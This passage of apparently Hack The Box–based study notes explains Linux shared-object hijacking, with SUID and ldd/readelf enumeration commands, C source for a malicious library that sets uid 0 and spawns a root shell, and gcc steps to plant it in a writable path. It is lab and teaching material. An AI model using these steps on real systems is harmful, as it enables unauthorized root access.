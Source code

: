 
---
  <a id="10.4-shared-object-hijack"></a>
  ## **Shared Object Hijacking**

  Dynamic programs use **`.so`** libraries to perform functions external to the main code.

  If a binary with **SUID permission** (run as root) looks for a library from a **custom and vulnerable (writable)** path, we can **create a fake library** to run malicious code as **root**.


  Via **SUID**:

  **`find / -perm -4000 -type f 2>/dev/null`**

  Or other ways we find a binary, we use **ldd**:

  **`ldd ./payroll`**

  If some **`.so`** appears, for example:

  **`libshared.so => /development/libshared.so`**

  Check the PATH:
  **`readelf -d /home/htb-student/shared_obj_hijack/payroll  | grep PATH`**

  In the example it returns a directory called **`/development`**, which when we run **`ls -la`** we notice we have write permission, we can then run ldd again on the binary to know the function name:

  **`./payroll`**

  example output:

  **`symbol lookup error: ./payroll: undefined symbol: dbquery`**

  We then know the name is **`dbquery`**, so now we create the payload:

  ```bash
  // libshared.c
  #include <stdio.h>
  #include <stdlib.h>
  #include <unistd.h>

  void dbquery() {
      printf("Malicious library loaded\n");
      setuid(0);
      system("/bin/sh -p");
  }
  ```

  Compile and run again:
  **`gcc src.c -fPIC -shared -o /development/libshared.so`**

  **`./payroll`**


  ---
  <a id="10.5-python-hijack"></a>
  ## **Python Library Hijacking**
  
